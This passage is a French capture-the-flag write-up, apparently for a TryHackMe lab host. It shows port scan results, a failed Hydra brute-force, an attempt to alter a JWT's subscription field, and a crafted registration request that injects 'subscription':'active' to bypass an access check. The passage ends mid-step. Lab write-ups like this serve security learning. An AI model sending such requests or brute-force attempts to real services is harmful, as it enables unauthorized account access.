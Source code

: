 ```

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.40 seconds
```
- 22 SSH
- 80 HTTP
- 4369 EPMD (Erlang)
- 25672 ?

# Recherches et exploitation
On peux créer un compte, je test mais j'ai ce message :
```
Sorry, this service is only for internal users working within the organization and our clients. If you are one of our clients, please ask the administrator to activate your subscription.
```
On peux aussi envoyer un message via le formulaire de contact mais cela semble inactif.

Sur le site on vois ces 2 emails :
``` 
info@smarteyeapps.com
sales@smarteyeapps.com
```
Je test de créer un compte avec le domaine **@smarteyeapps.com** mais maintenant, j'ai cela dis que j'ai un username / password invalide

Il y a 2 potentiels users : 
```
williamson@smarteyeapp.com
kristina@smarteyeapps.com
```
Je test un bruteforce avec Hydra mais ce n'est pas concluant.

Il y a un token JWT, le payload est ainsi :
```
{
  "email": "test@test.com",
  "subscription": "inactive",
  "iat": 1741965465,
  "exp": 1741969065
}
```
Je test de le passer en **active** et de renvoyé la requête mais cela ne fonctionne pas.
Je vais test de créer un compte qui est déjà actif
```
POST /api/register HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://storage.cloudsite.thm/register.html
Content-Type: application/json
Content-Length: 74
Origin: http://storage.cloudsite.thm
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAc21hcnRleWVhcHBzLmNvbSIsInN1YnNjcmlwdGlvbiI6ImluYWN0aXZlIiwiaWF0IjoxNzQxOTY5MTc5LCJleHAiOjE3NDE5NzI3Nzl9.81_IoL2b3q6eaM2zO_sFSTozAeFaJFPvZRpNVziZswc
Priority: u=0

{"email":"blabla@test.com","password":"test",
"subscription": "active"
}
```
Il créer bien le compte :